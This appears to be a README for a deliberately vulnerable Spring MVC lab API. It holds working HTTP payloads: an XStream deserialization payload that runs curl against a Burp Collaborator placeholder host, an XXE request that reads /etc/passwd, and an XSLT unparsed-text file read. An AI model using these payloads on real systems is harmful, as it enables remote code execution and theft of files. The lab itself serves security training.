 # Vulnerable Spring MVC API
Vulnerable to:

* deserialization attacks (OWASP Top 10 A8)
* XXE (OWASP Top 10 A4)
* XSLT abuse (XSLT 1.0 and 2.0) 

### Running with maven

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker build -t deserialize .`
4. `docker run -p 8080:8080 -it deserialize`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```

## XSLT 2.0

You have to run at least one normal request first.

```
POST /api/contacts/1/html HTTP/1.1
Host: localhost
Content-Type: application/xslt
Accept: text/html
Content-Length: 241

<?xml version="1.0" encoding="UTF-8" ?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd')"/>
 </xsl:template>
</xsl:stylesheet>
```

You can also use URLs instead of file names with `unparsed-text()`. And of course XXE in the XSLT.

# Resources
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
